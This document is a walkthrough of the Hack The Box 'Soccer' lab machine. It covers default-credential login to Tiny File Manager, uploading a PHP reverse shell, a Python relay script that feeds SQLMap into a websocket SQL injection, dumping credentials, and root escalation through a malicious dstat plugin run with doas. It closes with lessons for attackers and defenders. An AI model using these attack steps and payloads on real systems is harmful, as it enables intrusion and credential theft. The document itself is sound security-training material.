



Soccer
Linux, Easy, Released 2022-12-18

INTRODUCTION
At first, the target seems like a half-built Apache server. After a little enumeration, it seems like a single server hosting four website templates: one for music, one for interior design, one for artwork, and one that is generally-applicable.
It's funny, but some of these seem like really nice templates.
The real action, as the name of the box suggests, is at the admin panel that manages the templates. It's a site for typical web hosting tasks like managing hosts, editing DNS, adding users, etc.
Warning: This walkthrough contains many spoilers. **No spoilers will be unexpected if you read the walkthrough sequentially.
SoccerINTRODUCTIONRECONWebserver StrategyExploring the websiteFOOTHOLDUpgrading the ShellUSER FLAGwww-dataLinux foothold strategyPort 3000Port 9091Websocket Fun TimesSQLMap over WebsocketROOT FLAGplayerLESSONS LEARNEDAttackerDefender
RECON
I followed my typical first steps. I set up a directory for the box, with a nmap subdirectory. Then set $RADDR to my target machine's IP, and scanned it with my typical nmap "init" scan:
xxxxxxxxxxnmap -sV -sC -O -n -Pn -oA nmap/init-scan $RADDR My "init" nmap scan: explained
This is a quick yet highly useful scan of the lower 1000 ports. I always use this first.
-sV Version detection. Ex. if port 21 is open, attempt to guess what version of FTP is running. -sC Default script scan; shorthand for
--script=default-O Enable OS detection. Nmap makes its best guess to fingerprint the target. -n Disable DNS resolution: we don't need hostnames. Speeds up the scan greatly. -Pn Skip host discovery, which is unnecessary if we're targeting just one host. -oA Output results in all formats, to thenmap/init-scandirectory.
x# Nmap 7.93 scan initiated Thu Jun 8 13:54:03 2023 as: nmap -sC -sV -v -n -Pn -oA ./Soccer/nmap/init-scan 10.10.11.194Nmap scan report for 10.10.11.194Host is up (0.17s latency).Not shown: 997 closed tcp ports (reset)PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:| 3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)| 256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)|_ 256 5797565def793c2fcbdb35fff17c615c (ED25519)80/tcp open http nginx 1.18.0 (Ubuntu)|_http-server-header: nginx/1.18.0 (Ubuntu)|_http-title: Did not follow redirect to http://soccer.htb/| http-methods:|_ Supported Methods: GET HEAD POST OPTIONS9091/tcp open xmltec-xmlmail?| fingerprint-strings:| DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:| HTTP/1.1 400 Bad Request| Connection: close| GetRequest:| HTTP/1.1 404 Not Found| Content-Security-Policy: default-src 'none'| X-Content-Type-Options: nosniff| Content-Type: text/html; charset=utf-8| Content-Length: 139| Date: Thu, 08 Jun 2023 10:54:19 GMT| Connection: close| <!DOCTYPE html>| <html lang="en">| <head>| <meta charset="utf-8">| <title>Error</title>| </head>| <body>| <pre>Cannot GET /</pre>| </body>| </html>| HTTPOptions:| HTTP/1.1 404 Not Found| Content-Security-Policy: default-src 'none'| X-Content-Type-Options: nosniff| Content-Type: text/html; charset=utf-8| Content-Length: 143| Date: Thu, 08 Jun 2023 10:54:19 GMT| Connection: close| <!DOCTYPE html>| <html lang="en">| <head>| <meta charset="utf-8">| <title>Error</title>| </head>| <body>| <pre>Cannot OPTIONS /</pre>| </body>| </html>| RTSPRequest:| HTTP/1.1 404 Not Found| Content-Security-Policy: default-src 'none'| X-Content-Type-Options: nosniff| Content-Type: text/html; charset=utf-8| Content-Length: 143| Date: Thu, 08 Jun 2023 10:54:20 GMT| Connection: close| <!DOCTYPE html>| <html lang="en">| <head>| <meta charset="utf-8">| <title>Error</title>| </head>| <body>| <pre>Cannot OPTIONS /</pre>| </body>|_ </html>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelRead data files from: /usr/bin/../share/nmapService detection performed. Please report any incorrect results at https://nmap.org/submit/ .# Nmap done at Thu Jun 8 13:54:34 2023 -- 1 IP address (1 host up) scanned in 31.07 seconds
Nmap revealed three services:
- SSH on port 22
- HTTP server on port 80
- Some unknown service on port 9091
Webserver Strategy
Results of the strategy will be summarized at the end of the section.
Add the target to /etc/hosts.
x
echo "10.10.11.194 soccer.htb" | sudo tee -a /etc/hosts☝️ I use
teeinstead of the append operator>>so that I don't accidentally blow away my/etc/hostsfile with a typo of>when I meant to write>>.Download the source code & extract all the links.
Omitted here because it was not helpful for this box. At a high level, this is the process I usually follow:
- Use
wgetto download a copy of the target domain - Use
stringsto extract all strings from the source code - Use regex to parse all strings. I look for text following an
hrefattribute and anything withhttporhttps
- Use
Perform vhost enumeration on the target.
x
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.10.68:80/ -H "Host: FUZZ.soccer.htb" -c -t 40 -timeout 4 -ic -ac -mc 200,204,301,307,401,403,405,500,404Perform subdomain enumeration on the target.
x
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://FUZZ.soccer.htb -c -t 40 -timeout 4 -ic -acPerform directory enumeration on the target domain and any domains collected in steps (3) or (4).
x
feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://soccer.htb -A -d 1 -t 100 -T 4 --burp --smart
- For vhost and subdomain enumeration, ANY RESULTS may be important.
- For directory enumeration, there are many false-positives. READ THROUGH THE RESULTS MANUALLY and look for important results. I sometimes run this twice, filtering out the byte size for unimportant pages.
Check each page for a
formwith a POST method, using the list of pages from directory enumeration. I use a handy tool called Selenium Oxide. Below is a snippet that shows how I do this:xxxxxxxxxxexploit = ExploitBuilder('http', addr, use_proxy=args.proxy)with open(f'./{dirname}/discovered_uris.txt', 'r') as f:for f_url in f:# Change subdomainsif addr != f'{baseurl(f_url)}:{port}':# then skip this result# [omitted]exploit.driver.maximize_window()exploit.get(f'/{page(f_url)}')# Only examine sites that have a form that does a POSTforms = exploit.driver.find_elements(By.CSS_SELECTOR, 'form[method="POST"]')user = SeO2User()for frm in forms:print(f'\nExamining form: {frm.get_attribute("outerHTML")}\n')inputs = frm.find_elements(By.CSS_SELECTOR, 'input')# [omitted]Note that this check could also be performed using regex, but regex parsing of HTML is really difficult and error-prone in my experience.
Do banner-grabbing on the target.
xxxxxxxxxxwhatweb $RADDR && curl -IL $RADDRCheck Wappalyzer, a tool used for identifying the underlying technologies of a website. I use the official Wappalyzer plugin for firefox.
Notable results from enumeration of this box included the following:
xNo VHosts or subdomains were found.200 GET http://soccer.htb/ground3.jpg200 GET http://soccer.htb/ground4.jpg200 GET http://soccer.htb/ground2.jpg200 GET http://soccer.htb/ground1.jpg200 GET http://soccer.htb/301 GET http://soccer.htb/tiny => http://soccer.htb/tiny/301 GET http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/nginx 1.18.0, Ubuntu, PHP
Exploring the website
The /tiny directory brings us to a file manager login page:

Then, by attempting a login to /tiny was redirected to here, actually the same thing:
xhttp://soccer.htb/tiny/tinyfilemanager.php
Attempting to navigate to /tiny/uploads shows a standard nginx 403 Forbidden page:

FOOTHOLD
On the /tiny/tinyfilemanager.php page, there is a link at the bottom: © CCP Programmers that leads to the github page of the Tiny File manager source code. Thankfully, there is some documentation regarding installation and configuration.
In the Security and User Management section, the default credentials are shown:
- admin : admin@123
- user : 12345
Trying the admin credentials on /tiny/tinyfilemanager.php leads to a successful login:

Clearly, the site runs PHP, so let's try using php-reverse-shell.php
☝️ This reverse shell is built in to kali, found at
/usr/share/webshells/php/php-reverse-shell.php. Remember to modify it for your current IP and the port of your reverse shell's listener.
Remember to set a new firewall rule for the reverse shell (and heck, while we're at it, do one for a webserver too):
sudo ufw allow from 10.10.11.194 to any port 4444 proto tcpsudo ufw allow from 10.10.11.194 to any port 8000 proto tcpThen establish the listener
bashnc -lvnp 4444We can then attempt to upload the reverse shell using the page's upload widget:

But unfortunately, uploading directly to /var/www/html isnt possible because the directory is not writeable. I'm sure that /tiny/uploads directory will work though:

🤔 Hmm... Even after "uploading" it, it still doesn't seem to be uploaded. Upload from URL doesn't seem to work either.
However, clicking the New Item button in the top right of the page allows you to create a new directory. It seems possible to create a new directory in /tiny/uploads, so I created /tiny/uploads/test and uploaded the same reverse shell to there:

The reverse shell can then be triggered by performing an http request to http://soccer.htb/tiny/uploads/test/php-reverse-shell.php or simply by clicking the Direct Link button (second from the right in the Actions column.)
😄 And now we have a reverse shell, as www.data!

Upgrading the Shell
I originally learned this procedure from this blog post. It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this.
Starting with the "dumb" shell, change from sh to bash:
x
SHELL=/bin/bash script -q /dev/nullYou'll have a better prompt now, but still no tab completion and still no ability to use things like
lessorvi. Let's fix that:
x
[ctrl+z]stty raw -echofg [enter] [enter]export TERM=xterm256-colorThe shell will be backgrounded, then enable echo mode with stty, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.
USER FLAG
www-data
So what can www-data do? Whenever I gain foothold on a new box, I like to take the following steps:
Linux foothold strategy
Run
id. Find out what groups this user is in. Locate the user within/etc/passwdif possible; see if they have a shell and/orhomedirectory.xxxxxxxxxxid && cat /etc/passwd | grep $USERCheck if the user can sudo
xxxxxxxxxxsudo -lCheck locations that are writable by the user or its group
xxxxxxxxxxfind / -user [username] 2>/dev/nullfind / -group [groupname] 2>/dev/nullDoes the user already have any useful tools?
x
which nc netcat socat python perl phpCheck for any active and listening sockets
xxxxxxxxxxnetstat -tulpn | grep LISTEN☝️ also try
netstat -antpDoes the user have anything in cron?
xxxxxxxxxxcrontab -lDoes the system or root have anything in cron?
xxxxxxxxxxcat /etc/crontabls -laR /etc/cron*Find any SUID or SGID executables that are accessible by the user
x
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null | grep -v '/proc'Download the toolbox (not covered in-depth here).
My toolbox includes linpeas, linenum, pspy, and chisel.
Since HTB boxes are not connected to the internet, I usually get my tools onto the target box by standing up a python webserver and using any available tool (nc, wget, or curl) to download the tools from my attacker machine onto the target box. I also use this webserver for moving exploit code from my attacker box onto the target.
I've prepared a small toolbox for myself, including a short index.html page, that is generally applicable for any CTF box. I suggest any reader of this walkthough does the same.
Run pspy and take a look at any running processes. Since pspy is closed with
ctrl+c, and your reverse shell may not be fully interactive, it is best to run this on a timeout:xxxxxxxxxxtimeout 5m ./pspyRun pre-scripted enumeration tools, such as LinEnum or linpeas
xxxxxxxxxx./LinEnum.sh./linpeas.sh -w
I only did steps (1) through (5) and saved the rest for later. Notable results from the foothold strategy included the following:
- (1) revealed that there are two important users on the box:
www-dataandplayer.playerhas a home directory, so that's probably where the flag is. - (3) revealed that
www-datais pretty locked-down. They can only write to/var/lib/nginx/*and to the directory I just created/var/www/html/tiny/uploads/test - (4) revealed that
nc,netcat,perl, andphpare present. - (5) revealed a few unexpected things:  SSH, HTTP server, and that mysterious service on 9091 are all running, we knew that already. But there is also 3306 (MySQL) and 33060 (an interface to MySQL using the 'x-protocol'). Additionally, something listening on port 3000: often a development copy of a webserver, in my experience.
- (11) linpeas showed something interesting:

Port 3000
As I guessed, this appears to be a webserver on port 3000. I'm not sure if it's under development, but it seems very similar to the original soccer.htb website. The biggest difference is that there is more in the navbar:
curl localhost:3000x...<body><nav class="navbar navbar-expand-lg navbar-dark bg-dark"><div class="container-fluid"><a class="navbar-brand">Soccer</a><button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarNavAltMarkup" aria-controls="navbarNavAltMarkup" aria-expanded="false" aria-label="Toggle navigation"><span class="navbar-toggler-icon"></span></button><div class="collapse navbar-collapse" id="navbarNavAltMarkup"><div class="navbar-nav"><a class="nav-link active" aria-current="page" href="/">Home</a></div><div class="navbar-nav"><a class="nav-link active" aria-current="page" href="/match">Match</a></div><div class="navbar-nav"><a class="nav-link active" aria-current="page" href="/login">Login</a></div><div class="navbar-nav"><a class="nav-link active" aria-current="page" href="/signup">Signup</a></div></div></div></nav><header><div class="container h-100"><div class="d-flex h-100 text-center align-items-center"><div class="w-100 text-white"><h1 class="display-3">HTB FootBall Club</h1><p class="lead mb-0">"We Love Soccer"</p></div></div></div></style></header>...
Port 9091
I was curious about what was running on port 9091, so I tried connecting to it using nc $RADDR 9091. After making a request, it was clear that it was running http.
To investigate, I'll searching for any of the nginx directories:
find / -name nginx* -type d 2>/dev/nullxxxxxxxxxx/usr/share/doc/nginx-common/usr/share/doc/nginx-core/usr/share/doc/nginx/usr/share/nginx/usr/lib/nginx/sys/fs/cgroup/blkio/system.slice/nginx.service/sys/fs/cgroup/pids/system.slice/nginx.service/sys/fs/cgroup/devices/system.slice/nginx.service/sys/fs/cgroup/cpu,cpuacct/system.slice/nginx.service/sys/fs/cgroup/memory/system.slice/nginx.service/sys/fs/cgroup/systemd/system.slice/nginx.service/sys/fs/cgroup/unified/system.slice/nginx.service/var/lib/nginx/var/log/nginx/etc/nginx
Remembering that configuration files are usually stored in /etc, I'll look there first.

nginx.conf does not seem to contain anything out of the ordinary. conf.d is empty. I checked sites-enabled, which contained two files:
xxxxxxxxxxwww-data@soccer:/etc/nginx/sites-enabled$ lsdefault soc-player.htb
Well that's odd. soc-player.htb seems like it would be an alternate domain running on this box. I'll take a look at the configuration file:
xxxxxxxxxxwww-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htbserver {listen 80;listen [::]:80;server_name soc-player.soccer.htb;root /root/app/views;location / {proxy_pass http://localhost:3000;proxy_http_version 1.1;proxy_set_header Upgrade $http_upgrade;proxy_set_header Connection 'upgrade';proxy_set_header Host $host;proxy_cache_bypass $http_upgrade;}}
Well how about that... very interesting. It's the website running on port 3000!
Based on the server_name property, there should be a subdomain that didn't appear during my subdomain fuzzing: soc-player.soccer.htb. I added this new subdomain to my /etc/hosts file and tried navigating to the website:

🤔 That page looks a lot like soccer.htb did, but with some extra menu items. Having found a new subdomain, I'll perform directory enumeration on it:

Checking out the site a bit, many things are guiding me towards signup. I'm signing up as donjohe@mail.mail, donjohe / password:

After signing up and logging-in to the user I just created, I'm presented with the /check page. It has form with a single text field, so I'll try submitting something and catching it with Burp:

The form submission was caught in my Burp proxy:

There! That's what port 9091 is for!
Forwarding this request resulted in a short message from ther server: "Ticket Doesn't Exist". This was also shown on the /check page:

Worth noting that this is not the typical x-www-form-urlencoded form that we usually see. This one uses a websocket (with port 9091). See below for the source:
var ws = new WebSocket("ws://soc-player.soccer.htb:9091"); window.onload = function () { var btn = document.getElementById('btn'); var input = document.getElementById('id'); ws.onopen = function (e) { console.log('connected to the server') } input.addEventListener('keypress', (e) => { keyOne(e) }); function keyOne(e) { e.stopPropagation(); if (e.keyCode === 13) { e.preventDefault(); sendText(); } } function sendText() { var msg = input.value; if (msg.length > 0) { ws.send(JSON.stringify({ "id": msg })) } else append("????????") } } ws.onmessage = function (e) { append(e.data) } function append(msg) { let p = document.querySelector("p"); // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16); // p.style.color = randomColor; p.textContent = msg }
Websocket Fun Times
I haven't ever had to pentest a websockets-based application before, so I read up on it a bit from this Hacktricks page. To fingerprint and search for known vulnerabilities, the Hacktricks page suggests a tool called STEWS. I downloaded the tool and tool and tried it out, first with the fingerprinting module:


Ok, that might prove to be useful later. Next I'll try the vulnerability detection module:
Test for generic Cross-site WebSocket Hijacking (CSWSH):
The other three vulnerabilities that the tool tests for are DoS, so I'm not interested in them for this box
xxxxxxxxxx└─$ python3 STEWS-vuln-detect.py -u $RADDR:9091 -n -v -1Testing ws://10.10.11.194:9091>>>Note: ws://10.10.11.194:9091 allowed http or https for origin>>>Note: ws://10.10.11.194:9091 allowed null origin>>>Note: ws://10.10.11.194:9091 allowed unusual char (possible parse error)>>>VANILLA CSWSH DETECTED: ws://10.10.11.194:9091 likely vulnerable to vanilla CSWSH (any origin)====Full list of vulnerable URLs===['ws://10.10.11.194:9091']['>>>VANILLA CSWSH DETECTED: ws://10.10.11.194:9091 likely vulnerable to vanilla CSWSH (any origin)']
Unfortunately, like other XSS-adjacent vulnerabilities, this is only useful if I'm attempting to steal data from another user's interaction with the server. And as far as I know, I'm the only user on this box right now 👀.
This got me thinking about what kind of vulnerability I really needed to find... 🤔 Clearly this ticket ID is being checked against some database (probably the MySQL database identified earlier). Really, the best thing would be an SQL injection. I did some searching on SQL Injection against websockets, and found this page talking about it in the context of CTFs.
💡 Note to self: Could I eavesdrop on the connection from 9091 to MySQL on 3306 (or 33060)? If a new connection is formed for every DB transaction, might be able to grab the connection string that way. Since it's local, that communication is unlikely to be encrypted. I'll check this out later.
I modified the code on that page to take the websocket server address (10.10.11.194:9091) and websocket request parameter ('id') as arguments. In essence, this script stands up a python webserver on my attacker box, which will take in requests via http then relay them to the target's websocket server. My modified version of that code is shown below:
xxxxxxxxxxfrom http.server import SimpleHTTPRequestHandlerfrom socketserver import TCPServerfrom urllib.parse import unquote, urlparsefrom websocket import create_connectionimport sys
def send_ws(payload, serveraddr, param_name): ws_server = f'ws://{serveraddr}' ws = create_connection(ws_server) # If the server returns a response on connect, use below line #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here # For our case, format the payload in JSON message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure data = '{"%s":"%s"}' % (param_name, message) print(f'Sending {data}')
ws.send(data) resp = ws.recv() ws.close()
if resp: return resp else: return ''
def middleware_server(host_port, server_addr, parameter, content_type="text/plain"):
class CustomHandler(SimpleHTTPRequestHandler): def do_GET(self) -> None: self.send_response(200) try: payload = urlparse(self.path).query.split('=',1)[1] except IndexError: payload = False if payload: content = send_ws(payload, server_addr, parameter) else: content = 'No parameters specified!'
self.send_header("Content-type", content_type) self.end_headers() self.wfile.write(content.encode()) return
class _TCPServer(TCPServer): allow_reuse_address = True
httpd = _TCPServer(host_port, CustomHandler) httpd.serve_forever()
if (len(sys.argv) < 3) : print("Usage: ./relay.py [ws host] [parameter] \n ex. ./relay.py 127.0.0.1:9000 id") sys.exit()
addr = sys.argv[1]param = sys.argv[2]
print("[+] Starting MiddleWare Server")print("[+] Send payloads in http://localhost:8081/?id=*")
try: middleware_server(('0.0.0.0',8081), addr, param)except KeyboardInterrupt: passOn my attacker box, I ran this script. Then in a separate tab I tried making some cURL requests to this server. It worked like a charm:

SQLMap over Websocket
That's all great, but I could do that already just using Burp. The real goal was to try running SQLmap (which works over http) on this, just like in the article where I took the original code. Let's see what SQLMap turns up:


xxxxxxxxxxavailable databases [5]:[*] information_schema[*] mysql[*] performance_schema[*] soccer_db[*] sys
Don't get me wrong, I'm glad it's injectable, but time-based blind injections take f...o...r...e...v...e...r..... 💀 Thankfully, we have direct access to the database, so all we really need are some credentials. So instead of dumping the database contents, I'll just obtain the password hashes and get cracking.
After a few hours, finally a few hashes were recovered:
xdatabase management system users password hashes:[*] debian-sys-maint [1]:password hash: $A$005$Qj\x1fA(\\0[*] mysql.infoschema [1]:password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED[*] mysql.session [1]:password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED[*] mysql.sys [1]:password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED[*] player [1]:password hash: *9C66A903EC673FCF95D84CE93691AD526969AA3C[*] root [1]:password hash: NULL
That doesn't really inspire confidence...
Ok, back to the original plan: use the time based blind SQL injection to see what else MySQL has for us. Of the databases discovered during the previous enumeration attempt, the database soccer_db looks most interesting. Let's find out what tables it contains:
sqlmap -u "http://localhost:8081/?id=1" -p id -D soccer_db --tables --batchThis wasn't too bad, actually. It only took a few minutes.
xxxxxxxxxxDatabase: soccer_db[1 table]+----------+| accounts |+----------+
Whew, thank goodness: only one table. Let's dump the contents:
xxxxxxxxxxsqlmap -u "http://localhost:8081/?id=1" -p id -D soccer_db -T accounts --dump-all --batchxDatabase: soccer_dbTable: accounts[1 entry]+------+-------------------+----------------------+----------+| id | email | password | username |+------+-------------------+----------------------+----------+| 1324 | player@player.htb | PlayerOftheMatch2022 | player |+------+-------------------+----------------------+----------+
Nice. Storing passwords in plaintext - always a smart move 😉 So we've obtained a new credential: player / PlayerOftheMatch2022
Keeping credential re-use in mind, let's try logging into mysql locally using the above credential:

Success! Now that I'm not waiting hours for a time based blind SQL injection, I'll take a look at the rest of the database.
Result: aside from soccer_db, all tables were mysql system tables. There was no information of immediate importance.
We already know that SSH is running on the box, so it makes sense to try the player credential there, too.
🎉 Awesome! That credential was successful for SSH. We're now logged in as player:

I've already seen that the flag user.txt is in /home/player. Time to finally read it:
cat /home/player/user.txt
ROOT FLAG
player
Having just obtained access to a new user, I'll go through my usual Linux foothold strategy and enumerate the user thoroughly. These are the key results:
playercannotsudoat all.playerhas access tonc,netcat,perl, andphp.- (Found while enumerating
www-data: There is a notable permission that might be useful, worth investigating
I'm not familiar with doas, so I did some research on what it is and how it works.
😍 It's like sudo and su rolled together. Like a privilege escalation dream come true. It looks like I can use doas as player but only with /usr/bin/dstat. I've also never used dstat, but there was some useful info on GTFObins on how to make use of it.
Apparently dstat can be used for PE because it can load arbitrary python plugins. I'll follow the procedure on how to create a dstat "plugin" for privilege escalation:
mkdir -p ~/.dstatecho 'import os; os.execv("/bin/sh", ["sh"])' > ~/.dstat/dstat_myplugin.pydoas /usr/bin/dstat --mypluginAnd... I truly have no idea why that didn't work. Even when changing permissions, or stringing all the commands together into one line (to avoid the possibility of the filesystem cleanup that runs every couple of minutes), I kept getting the same infuriating error message:
xxxxxxxxxxdstat: option --myplugin not recognized, try dstat -h for a list of all the options
WHAT THE HECK?! It's right there!! dstat even admits to it! According to the dstat man pages, the plugin can be in any of the following:
x~/.dstat/(path of binary)/plugins//usr/share/dstat//usr/local/share/dstat/
When I enter dstat --list, this is what I get:

I don't know what to say. It seems wrong. It lies.
Setting aside my rage, I tried the exact same thing, but using /usr/local/share/dstat/dstat_myplugin.py instead.
It worked fine.

🎉 Hooray, a root shell!
Now just simply cat out the flag to finish the box.
LESSONS LEARNED
Attacker
- I accidentally wasted a lot of time on subdomain enumeration. My scans kept returning random subdomains, which would enqueue another sub-subdomain, which would enqueue a sub-sub-subdomain... etc.
Keep an eye on your scanning tools, and if something seems wrong, don't be afraid to revise your usual methods. - RTFM. Developers can be a little overstretched, and it's natural for people to cut a few corners. When this happens while critical software is being installed/configured, they may forget to disable default credentials. The documentation for open source software can sometimes reveal these credentials.
- In HTB, cracking hashes is almost never the way. If you are trying to crack a hash, and can't do the job with just rockyou, then you're probably on the wrong track.
- When you reach new milestones in your entry into a system (foothold -> user flag, user -> privesc), remember to review your notes.
In this box, when I got a shell as
player, I already knew the trick that I was going to use for privilege escalation (doas+dstat).
Defender
- As a developer, you must clean up after yourself. I'm not sure if http://soc-player.soccer.htb/ was under development and http://soccer.htb/ was in production, but there is no reason to have both running concurrently.
- Security by obscurity is never the answer. Having a subdomain like http://soc-player.soccer.htb/ slows down an attacker, but any attacker with good enumeration skills will easily find this type of thing.
- Never store passwords in plaintext. Does this even need explanation? Better yet, try externalizing the risk by using some kind of SSO service.
- Avoid granting unnecessary permissions. There is no reason that
playerneeded to be able todstatas root.
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake